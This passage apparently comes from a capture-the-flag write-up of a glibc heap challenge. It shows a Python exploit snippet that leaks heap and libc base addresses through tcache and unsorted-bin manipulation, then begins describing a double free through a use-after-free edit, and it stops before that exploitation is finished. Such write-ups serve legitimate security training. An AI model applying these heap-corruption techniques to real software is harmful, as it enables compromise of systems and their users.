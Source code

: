 ### Memory Leaks

#### NOTICE
Calloc calls do not take from tcache.
{: .notice}

Heap Leak is just one step away , we simply add 2 chunks , free both and view the second chunk added.

For Libc Leak , we can simply fill a smallbin size tcache ,then add another chunk and free it , thus creating one unsorted bin chunk which has it's fd and bk pointers in libc bss `main_arena` struct.


```py

add(0,'0'*0x217)
add(1,'1'*0x217)

free(0)
free(1)

#Heap
view(1)
io.recvuntil('name: ')
heap_base = u64(io.recv(6) + '\x00'*2) - 0x260

#Fill 0x217 tcache
for _ in xrange(5):
    add(0,'2'*0x217)
    free(0)

add(0,'2'*0x217)
add(1,'3'*0x217) #Padding
#This time in unsorted bin
free(0)

#Libc
view(0)

io.recvuntil("hero name: ")
libc_base = u64(io.recv(6) + '\x00'*2) - 0x219ca0

log.info("Heap -> " + hex(heap_base))
log.info("Libc -> " + hex(libc_base))

```

We have the necessary leaks now , let's dive into some core exploitation :P.

Since we can `edit` free chunks also , we can easily `double_free` without crashing.

As we completely filled the 0x220 tcache , let us call `malloc` and consume one tcache , add another chunk of size 0x217 , free it and this chunk would silently fill back tcache without top consolidation.
